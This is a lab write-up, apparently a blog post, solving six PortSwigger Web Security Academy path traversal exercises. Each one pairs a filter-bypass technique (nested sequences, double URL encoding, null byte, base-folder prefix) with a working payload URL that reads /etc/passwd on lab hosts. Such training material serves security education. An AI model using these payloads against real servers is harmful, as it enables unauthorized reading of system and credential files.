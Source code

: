 ```yaml
---
title: PortSwigger | Path Traversal
date: '2024-07-09'
tags: ['PortSwigger', 'PortSwigger Labs', 'Web Security']
draft: false
summary: 
---
```


#### File path traversal, simple case
In this lab we check the source of the page and find the following url:

```
https://0aae00e203902c8181cc6bd200dc00f0.web-security-academy.net/image?filename=15.jpg
```

This url is being used to load an image. We can inject path traversal payload here.

```
https://0aae00e203902c8181cc6bd200dc00f0.web-security-academy.net/image?filename=../../../../../../../etc/passwd
```

#### File path traversal, traversal sequences blocked with absolute path bypass
If an application strips or blocks directory traversal sequences from the user-supplied filename, it might be possible to bypass the defense using a variety of techniques.

You might be able to use an absolute path from the filesystem root, such as `filename=/etc/passwd`, to directly reference a file without using any traversal sequences.

In this lab we used the absolute path to access the file as directory traversal `../../` was getting stripped at the backend.

```
https://0a40003d04ba83ba809de434007a00bb.web-security-academy.net/image?filename=/etc/passwd
```

#### File path traversal, traversal sequences stripped non-recursively
You might be able to use nested traversal sequences, such as `....//` or `....\/`. These revert to simple traversal sequences when the inner sequence is stripped.

The server will strip one `../` and it will leave the other `../`

We solved this lab using the following url :

```
https://0acd0074046e76c58040357a00c100b4.web-security-academy.net/image?filename=....//....//....//etc/passwd
```

#### File path traversal, traversal sequences stripped with superfluous URL-decode
In some cases web servers strip all kind of path traversals. These can be bypassed using
- Url encoding :  `%2e%2e%2f`
- Double url encoding the `../` characters : `%252e%252e%252f`
- Various non-standard encodings, such as `..%c0%af` or `..%ef%bc%8f`, may also work.

In this case the second method worked

```
https://0a6800b704219f5280b362ee00430070.web-security-academy.net/image?filename=..%252f..%252f..%252fetc/passwd
```

#### File path traversal, validation of start of path
An application may require the user-supplied filename to start with the expected base folder, such as `/var/www/images`. In this case, it might be possible to include the required base folder followed by suitable traversal sequences. For example: `filename=/var/www/images/../../../etc/passwd`.


```
https://0a81002a03dc4624810afcda006f00a3.web-security-academy.net/image?filename=/var/www/images/../../../etc/passwd
```

#### File path traversal, validation of file extension with null byte bypass
An application may require the user-supplied filename to end with an expected file extension, such as `.png`. In this case, it might be possible to use a null byte to effectively terminate the file path before the required extension. For example: `filename=../../../etc/passwd%00.png`.

```
https://0a58008b046d8bd880bd3054006f00bf.web-security-academy.net/image?filename=../../../etc/passwd%00.png
```

